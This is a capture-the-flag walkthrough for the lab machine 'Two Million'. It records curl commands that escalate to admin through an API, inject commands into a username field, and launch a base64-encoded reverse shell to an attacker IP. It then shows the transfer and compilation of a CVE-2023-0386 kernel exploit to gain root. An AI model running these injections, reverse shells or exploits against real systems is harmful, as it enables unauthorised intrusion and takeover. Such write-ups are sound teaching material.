





Welcome to my writeup version of the machine "Two Million".


# Enumeration

## NMAP

I start with an nmap to see which ports are open:


Then I go with the second nmap to list wich services are running on each port and its version:


We can see an HTTP and a SSH running.

## HTTP

It seems that searching the web page by the ip addres on the url doesn't work. In the nmap qe can see that the ip adress gets redirected to a web page called "2million.htb". To solve this problem lets change the /etc/hosts file:

Once opened with 'sudo nano /etc/hosts'(because we need root to change this file), we add at the botton of the file:

"[ip] 2million.htb"

Now it should redirect the ip on to the webpage:


Got it, lets see what we can find.

On top we can apreciate there are different parts on the page(about, FAQ, join, commercial, labs, hall of fame, login).

<u>Login</u>:

After a quick test on the login with OR 1=1 ' attack, I can see that there is no SQLi on it.

<u>Join</u>:

The next interesting section is "join". We are presented with a button that challenges us to hack the invite process.


By clicking it we'll be directed to the "Sign Up" page(There is also a link on the faq section on 'here').


Now that we now there is something to hack on the "invite process", lets see how the web works on the background.

Looking at the source code


We can see that there is a script in JavaScript which checks if the code is right.

This script is basically making a POST request to '/api/v1/invite/verify', to verify if the code is correct.

There is also another important script being loaded on to the web page, inviteapi.min.js.


This script is obfuscated, with almost any AI or other tools we can deobfuscate the code.


<strong>Now</strong> we have something interesting. There is the method that obtains a valid code.

Lets jump to the terminal and obtain that code.


The response mesasge gives us a line of code encrypted un ROT13.

With a ROT13 decoder the result comes out as:


Curl to that directory:


We get a valid code that seems to be encrypted in base64.

Use the valid code to create a new "test" account


Then register...


Once logged in, we are presented with a HTB page.

On the left side there is a menu, from all the options only 4 are features(Dashboard, Rules, Change Log, Acces).

Between the functional features, actions seems to be the most interesting one.


The acces feature comprehends of a connection pack generator qhich can be regenerated. Each time we press each button, a '.ovpn' gets downloaded.

Lets see what kind of curl does the button on the background.


It can bee seen that the button sens a request to the api so it sends the vpn file. 

Seeing that there is an accesible api behind(as we proved before whith the acces-code) we could try to procede with an <strong>api enumeration</strong>.

## API Enumeration

To start the api enumeration, on terminal we'll make a GET petition with curl to the api.



first thing we get is a code 400. It seems that thes api is configurated to require autorithation.

Using the PHPSESSID that can be seen on the devtools:



In this response we have an <strong>admin</strong> directory on the api!

Now lets try to make it work. Changing to a PUT method we recive the next response.



Which means we must send a valid type of data. In the response there is a header with the type of contect. By adding another argument with '-H' to change the type of data, the api starts to ask por parameters such as: 

{"status":"danger","message":"Missing parameter: email"} 

That we'll be adding with -d '{"p1": "value1"}'

```
curl -sv -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=psm7d0seujto9mlqfqgeghjp7k" -H "Content-Type: application/json" -d '{"email": "test@gmail.com"}'


{"status":"danger","message":"Missing parameter: is_admin"}
```

A parameter 'is_admin' is still missing.

```
curl -sv -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=psm7d0seujto9mlqfqgeghjp7k" -H "Content-Type: application/json" -d '{"email": "test@gmail.com","is_admin": 1}'

{"id":13,"username":"test","is_admin":1} 
```
>In case we use the wrong type of value, the server usually would tell us which one we should use.

Now we should be admin, which means the endpoints that were forbiden before, now are abailable.

```
curl -sv -X GET "http://2million.htb/api/v1/admin/auth" -H "Cookie: PHPSESSID=psm7d0seujto9mlqfqgeghjp7k" -H "Content-Type: application/json"

{"message":true}
```

Going back, there was a posibility to create an admin vpn. Now that we are admin, creating one is a posibility.

```
curl -sv -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=psm7d0seujto9mlqfqgeghjp7k" -H "Content-Type: application/json" -d '{"username":"test"}'


client
dev tun
proto udp
remote edge-eu-free-1.2million.htb 1337
resolv-retry infinite
nobind
persist-key
persist-tun
remote-cert-tls server
comp-lzo
verb 3
data-ciphers-fallback AES-128-CBC
data-ciphers AES-256-CBC:AES-256-CFB:AES-256-CFB1:AES-256-CFB8:AES-256-OFB:AES-256-GCM
tls-cipher "DEFAULT:@SECLEVEL=0"
auth SHA256
key-direction 1
<ca>
-----BEGIN CERTIFICATE-----
MIIGADCCA+igAwIBAgIUQxzHkNyCAfHzUuoJgKZwCwVNjgIwDQYJKoZIhvcNAQEL
BQAwgYgxCzAJBgNVBAYTAlVLMQ8wDQYDVQQIDAZMb25kb24xDzANBgNVBAcMBkxv
...
```
Now, we can see hat a vpn gets created based on the name we give, assuming that the request is being executed by an exec function or similar. In case it wasn't filtered enough, an RCE via api should be posible.

```
curl -sv -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=psm7d0seujto9mlqfqgeghjp7k" -H "Content-Type: application/json" -d '{"username":"test;id;"}'

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
RCE acomplished!

## RCE

Now that we now an RCE is possible, a revershell should be possible too.

```
curl -sv -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=psm7d0seujto9mlqfqgeghjp7k" -H "Content-Type: application/json" -d '{"username":"test;echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTUuNjQvNDQzIDA+JjE= |base64 -d | bash;"}'

```
>Here we are using an base64 encoded revershell(its usually better this way)

´´´
nc -lvnp 443 
´´´
And we are in

## Lateral Movement

Inside the directory ~/html we'll find a file called ".env". Which conteins sensible information:



Using this information, we can use ```su admin```, and go for the user flag on its directory.

## Privilege escalation

After not finding anything, via usual methods I start wondering around directorys.

It turns out, sometimes there is valuable information in some directorys inside /var.

Here we found a directy /mail, qith a messsage giving us the name of the vulnerability we need.



After a quick search we find out about the <u>CVE-2023-0386</u>.

With ```uname -a``` & ```lsb_release -a``` and comparing the version of kernel and release of Jammy, the exploit is 100% compatible.

<u>Atacker machine</u>:


Clone the repository
```
git clone https://github.com/xkaneiki/CVE-2023-0386
```

Collapse it so its easier to transfer
```
tar -czvf exploit.tar.gz *
```

and send it to a /tmp directory trough a python server.

```
python3 -m http.server 80
```

<u>Victim's Machine</u>:


Get the zip
```
wget http://tu_ip_vpn/exploit.tar.gz
```

Unzip it

```
tar -xzvf exploit.tar.gz
```

Compile

```
make all
```

And now be carefull because this exploit requires execution on the background.

1. ```./fuse ./ovlcap/lower ./gc``` in the background
2. ```./exp``` in the foreground

And...

```
root@2million:/tmp/pwn/CVE-2023-0386# id
uid=0(root) gid=0(root) groups=0(root),1000(admin)
```

<strong>root!</strong>